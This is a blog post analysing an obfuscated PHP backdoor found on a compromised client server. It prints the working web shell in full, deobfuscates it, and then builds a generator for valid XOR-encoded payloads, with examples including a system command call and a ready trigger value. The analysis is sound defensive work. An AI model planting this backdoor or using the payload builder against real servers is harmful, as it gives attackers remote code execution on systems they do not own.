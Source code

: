 ```yaml
---
layout: default
title: Obfuscated PHP Backdoor script analysis 1
date: 2018-08-09
categories: 
    - "php"
    - "obfuscation"
---
```


So, one of our clients have had some unwanted visitors, leaving a couple
of gifts, and I thought I would take a closer look at some of these.

One of the dropped files were a short .php file, with some obfuscated
code:

```php
<?php
$rrgdaww = 'b-x5mrc\'lsv6#ufp394n*Hig1_tae87yk2od';$lyqov = Array();$lyqov[] = $rrgdaww[21].$rrgdaww[20];$lyqov[] = $rrgdaww[12];$lyqov[] = $rrgdaww[28].$rrgdaww[17].$rrgdaww[24].$rrgdaww[0].$rrgdaww[14].$rrgdaww[11].$rrgdaww[30].$rrgdaww[35].$rrgdaww[1].$rrgdaww[30].$rrgdaww[14].$rrgdaww[33].$rrgdaww[0].$rrgdaww[1].$rrgdaww[18].$rrgdaww[33].$rrgdaww[14].$rrgdaww[14].$rrgdaww[1].$rrgdaww[29].$rrgdaww[11].$rrgdaww[35].$rrgdaww[3].$rrgdaww[1].$rrgdaww[16].$rrgdaww[27].$rrgdaww[27].$rrgdaww[3].$rrgdaww[24].$rrgdaww[27].$rrgdaww[30].$rrgdaww[3].$rrgdaww[14].$rrgdaww[33].$rrgdaww[28].$rrgdaww[17];$lyqov[] = $rrgdaww[6].$rrgdaww[34].$rrgdaww[13].$rrgdaww[19].$rrgdaww[26];$lyqov[] = $rrgdaww[9].$rrgdaww[26].$rrgdaww[5].$rrgdaww[25].$rrgdaww[5].$rrgdaww[28].$rrgdaww[15].$rrgdaww[28].$rrgdaww[27].$rrgdaww[26];$lyqov[] = $rrgdaww[28].$rrgdaww[2].$rrgdaww[15].$rrgdaww[8].$rrgdaww[34].$rrgdaww[35].$rrgdaww[28];$lyqov[] = $rrgdaww[9].$rrgdaww[13].$rrgdaww[0].$rrgdaww[9].$rrgdaww[26].$rrgdaww[5];$lyqov[] = $rrgdaww[27].$rrgdaww[5].$rrgdaww[5].$rrgdaww[27].$rrgdaww[31].$rrgdaww[25].$rrgdaww[4].$rrgdaww[28].$rrgdaww[5].$rrgdaww[23].$rrgdaww[28];$lyqov[] = $rrgdaww[9].$rrgdaww[26].$rrgdaww[5].$rrgdaww[8].$rrgdaww[28].$rrgdaww[19];$lyqov[] = $rrgdaww[15].$rrgdaww[27].$rrgdaww[6].$rrgdaww[32];foreach ($lyqov[7]($_COOKIE, $_POST) as $upqahri => $cmxizo){function qhdpi($lyqov, $upqahri, $qbwar){return $lyqov[6]($lyqov[4]($upqahri . $lyqov[2], ($qbwar / $lyqov[8]($upqahri)) + 1), 0, $qbwar);}function gwwsryf($lyqov, $mofkmwg){return @$lyqov[9]($lyqov[0], $mofkmwg);}function dhrqt($lyqov, $mofkmwg){$lqofrk = $lyqov[3]($mofkmwg) % 3;if (!$lqofrk) {eval($mofkmwg[1]($mofkmwg[2]));exit();}}$cmxizo = gwwsryf($lyqov, $cmxizo);dhrqt($lyqov, $lyqov[5]($lyqov[1], $cmxizo ^ qhdpi($lyqov, $upqahri, $lyqov[8]($cmxizo))));}
```

At first glance, this does not make much sense, though there are some
noticeable signs that should trigger the alarm bells:

-   The apparent use of obfuscation
-   The direct client interaction shown with \$\_COOKIE & \$\_POST
-   And the most alarming one, is the presence of the "eval" function

After cleaning it up abit, by adding some line breaks and indentation,
it starts to become clearer what is going on:

![]({{site.baseurl}}/assets/images/PHP01_01.png)



Its visible that:

-   A variable is initialized with some kind of string
-   An array is created with values concatenated from offsets in the
    above string
-   A loop over all key:value pairs from \$\_COOKIE & \$\_POST is
    happening
-   At some point an expression is evaluated

Let's take a look what the array contains after assignment:

```php
$lyqov = Array();
$lyqov[0] = "H*";
$lyqov[1] = "#";
$lyqov[2] = "e91bf67d-7f2b-42ff-86d5-3aa51a75f2e9";
$lyqov[3] = "count";
$lyqov[4] = "str_repeat";
$lyqov[5] = "explode";
$lyqov[6] = "substr";
$lyqov[7] = "array_merge";
$lyqov[8] = "strlen";
$lyqov[9] = "pack";
```
  
A lot of those value looks unmistakably like the names of PHP functions.

Let's make the script more readable with some Search/Replace, replacing
all the array references with its corresponding array value, as well as
some quick renaming of functions, variables and parameters.

```php
$mainArray = Array();
$mainArray[0] = "H*";
$mainArray[1] = "#";
$mainArray[2] = "e91bf67d-7f2b-42ff-86d5-3aa51a75f2e9";
$mainArray[3] = "count";
$mainArray[4] = "str_repeat";
$mainArray[5] = "explode";
$mainArray[6] = "substr";
$mainArray[7] = "array_merge";
$mainArray[8] = "strlen";
$mainArray[9] = "pack";

foreach (array_merge($_COOKIE, $_POST) as $key => $value){
	
	function func1($mainArray, $key, $func1_p3){
		return substr(str_repeat($key . "e91bf67d-7f2b-42ff-86d5-3aa51a75f2e9", ($func1_p3 / strlen($key)) + 1), 0, $func1_p3);
	}
	
	function func2($mainArray, $func2_p2){
		return @pack("H*", $func2_p2);
	}
	
	function func3($mainArray, $func3_p2){
		
		$flag = count($func3_p2) % 3;

		if (!$flag) {
			eval($func3_p2[1]($func3_p2[2]));
			exit();
		}
	}

	$value = func2($mainArray, $value);

	func3($mainArray, explode("#", $value ^ func1($mainArray, $key, strlen($value))));
}
```


It now possible to see what is going on, but to fully understand the
functionality, I decided to take a deeper look by going through each
section, and doing some rewriting where's needed, as well as adding some
comments.

```php
  // mainArray is no longer needed

  // Iterate all cookie and post parameters
  foreach (array_merge($_COOKIE, $_POST) as $key => $value){
  
    // create repeating XOR cipher key to decipher $value
    function xorKey($key, $valueLen){
      // string substr ( string $string , int $start [, int $length ] )
      return substr(
        // string str_repeat ( string $input , int $multiplier )
        // Name of key used to deliver the payload, concatenated with some id eg. payloads are designed for specific targets, or atleast only accessible with id knowledge
        // Repeat xorKey to atleast length of $value
        str_repeat($key . "e91bf67d-7f2b-42ff-86d5-3aa51a75f2e9", ($valueLen / strlen($key)) + 1),
        0,
        $valueLen
      );
    }
  
    // Get length of $value before conversion to bin
    $valueLen = strlen($value);

    // Convert a binary expression (e.g., "01000001 01000010 01000011") into a binary-string
    // Note : The @ is the error suppression operator in PHP! (Meaning any error in pack, will be ignored)
    $value = @pack("H*", $value);

    // XOR 
    /*
      $value : supplied XOR cipher payload from entry arrays
      $xorKey : XOR cipher key fitted to length of $value ($key."e91bf67d-7f2b-42ff-86d5-3aa51a75f2e9") * times to be larger than length of $value
    */
    $payload = $value ^ xorKey($key, $valueLen);    
    
    // Create array for each element separated by "#"
    $payloadArr = explode("#", $payload);
    
    // is array length divisable by 3
    $flag = count($payloadArr) % 3;
    if (!$flag) {
      // success
      /*
        $payload[1] : function or method name, likely something like base64_decode or system
        $payload[2] : parameter for above function
      */
      eval($payloadArr[1]($payloadArr[2]));
      exit();
    }
    
  }
```

To summarise what is going on there, the script parses all parameters
provided in \$\_COOKIE & \$\_POST, looking for a key value pair, that
can be deciphered and on success evaluated.

Script flow:

1.  It iterates over all key:value pairs in $_COOKIE & $_POST,
    giving any client access to invoke this scripts functionality.

2.  To check if a key:value is a valid "payload", following is applied:

		a.  A repeating XOR cipher key is generated, based on key name and a "unique" id in the script.
		b.  The value is converted to binary.
		c.  XOR is then applied to the binary value, using previously generated key.
		d.  It is then made into an array, expecting each element is separated by "#".
		e.  If this array contains 3 (6,9..) elements, it's assumed a valid payload.

3.  If a valid payload was found, it is provided to the eval function,
    giving access to running any serverside code supplied!

4.  Script ends execution flow, if 1 valid payload is found, or when all
    key:value pairs have been processed.

We now know that a valid trigger would look something like this:

```php
$_POST = [
  "payload" => "0123456789abcdef"
];
```

To get a better look at what a payload would look like, I reversed the
functionality to be able to generate a valid payload.

```php
// Builds the payload, 3 examples, only 1st one is used
$payload = [
	// base64_decode("echo \"Hi\"; ")
	"unknwown",
	"base64_decode",
	base64_encode("echo \"Hi\"; "),
	
	// system('ls-lah')
	"unknwown",
	"system",
	"'ls-lah'",


	"unknwown",		// [0] Does not seem to be used, but could be to prevent accidentally processing "normal" parameters containing "#"
	"function_name",	// [1] Function name
	"function_param",	// [2] Function param
];

// Convert payload to string, separating entries by "#"
$payload = implode("#", $payload);

// Set a key name for the payload, used when delivering the payload to the target
$payloadKeyName = "payload";

// Set ID, used for either specific targets or as an access prevention to the specific backdoor script
$ID = "e91bf67d-7f2b-42ff-86d5-3aa51a75f2e9";

// Create repeating XOR cipher key from ($payloadKeyName & $ID)
$xorKey = str_repeat($payloadKeyName . $ID, (strlen($payload) / strlen($payloadKeyName)) + 1);

// XOR cipher the $payload using the $xorKey
$pXOR = $payload ^ $xorKey;

// Convert XOR'ed payload into a hexadecimal string
$finishedPayload = @unpack("H*", $pXOR);
```


That gives us following payload:
```php
[
"payload" => "050f1202180e130b1a530315530150725303510d4951113c316357541d744460260a5c7e18760845470b521e16161b0142171c4a45070b157e085a59047a2f4a78651e0e4c7e410a7c47405c"
]
```

And with a POST request to the initial script, we get a fine little "Hi"
message. =)

Oh and btw, VirusTotal had limited detection rate for this piece.

![]({{site.baseurl}}/assets/images/PHP01_02.png)


